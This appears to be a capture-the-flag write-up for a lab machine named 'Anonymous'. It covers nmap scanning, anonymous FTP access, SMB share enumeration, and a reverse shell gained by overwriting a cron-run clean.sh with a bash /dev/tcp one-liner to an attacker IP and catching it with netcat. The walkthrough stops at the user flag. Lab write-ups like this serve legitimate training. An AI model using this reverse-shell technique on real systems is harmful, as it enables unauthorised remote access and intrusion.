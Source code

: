 # Anonymous

--------------------------------------------------------------------

**TOOLS USED**: nmap, smbclient, netcat

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.43.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
-p-: scan all ports
-T SCAN_SPEED (0-5)
```
nmap -sV 10.10.43.144
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 2.0.8),<br>
    22 (ssh OpenSSH 7.6p1),<br>
    139 (netbios-ssn Samba smbd),<br>
    445 (netbios-ssn Samba smbd)


Anonymous ftp login allowed

```
ftp anonymous@10.10.43.144 
```

![1.2](./imgs/1.2.png)

Looks like clean.sh is being run periodically<br>
We have write permission so we can inject our own code

Found 3 files

Enumerate smb shares
```
smbclient -L //10.10.43.144 -N
```

![1.3](./imgs/1.3.png)

Found user share pics

Access pics share
```
smbclient //10.10.43.144/pics -N
```

![1.4](./imgs/1.4.png)

Found 2 images<br>
Might have hidden data

### 2. REVERSE SHELL

Replace clean.sh with this code for reverse shell
```
bash -i >& /dev/tcp/10.6.40.234/4444 0>&1
```

![2.1](./imgs/2.1.png)

Upload updated version to ftp
```
ftp anonymous@10.10.43.144 
cd scripts
put clean.sh
```

Start listener
```
nc -lnvp 4444
```

![2.3](./imgs/2.3.png)

**USER FLAG**: 